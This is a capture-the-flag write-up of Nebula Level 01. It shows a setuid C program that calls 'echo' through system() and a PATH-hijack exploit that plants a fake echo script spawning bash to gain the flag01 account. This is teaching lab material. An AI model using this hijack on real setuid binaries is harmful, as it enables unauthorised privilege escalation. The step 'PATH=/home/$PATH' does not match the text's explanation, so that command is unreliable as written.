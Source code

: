 ```yaml
---
layout: post
title: "Nebula Series - Level 01"
---
```


Nebula is the first in a series of VMs from Exploit Exercises. It consists of 20 levels which range
in difficulty from simple to intermediate and cover topics like Linux privilege escalation and file
system race conditions.

Level 01 introduces us to the concept of setuid and the dangers of trusting the user's environment
to invoke another executable from within our code.

<!--more-->

Ok, so the first thing to understand is that `setuid` and `setgid` are unix flags that allow us to
run an executable with the permissions of the executables owner or group. Improperly designed setuid
executables can be used for privilege escalation.

Inspecting the `flag01` users home directory, we see a single executable named `/flag01`

We can check the permissions with

```shell
$ stat -c "%a" /home/flag01/flag01

4750
```

The leading 4 indicates that the setuid permission is
set.

Alternatively we can run `ls -l` and look for an 's' in the executable position of the user permissions.

```shell
$ ls -l /home/flag01

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 /home/flag01/flag01
```

Here we also see that the owner is `flag01`.

To make things a little easier for us, we're also provided with the source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

We can see the application sets our *real* user id and group id using `setresgid` and `setresuid` to
our *effective* user id and group id which it gets with `getegid` and `geteuid`. Then it calls
"echo" using `system()`.

The question is, which `echo`? Well, we can influence that by modifying our path.

Let's create a new file named `echo` in our home directory with the following contents


```bash
#!/bin/bash

/bin/bash
```

Make sure it's executable with

```bash
$ chmod +x /home/level01/echo
```

Add our home directory to the front of our PATH so that our `echo` is the one that gets run

```bash
$ PATH=/home/$PATH
```

All that's left is to run the flag01 executable

```bash
$ /home/flag01/flag01
```

and we will be presented with a bash shell as the `flag01` user. To complete the level we use our escalated
privileges to run getflag

```bash
$ getflag

"You have successfully executed getflag on a target account"
```

In summary:

- `setuid` executables run with the permissions of the owner
- `setgid` executables run with the permissions of the group
- these flags are ignored for interpreted executables
- `setuid/setgid` executables can be exploited if not designed carefully
- relying on the user's environment to run the intended executable using `system` is unsafe
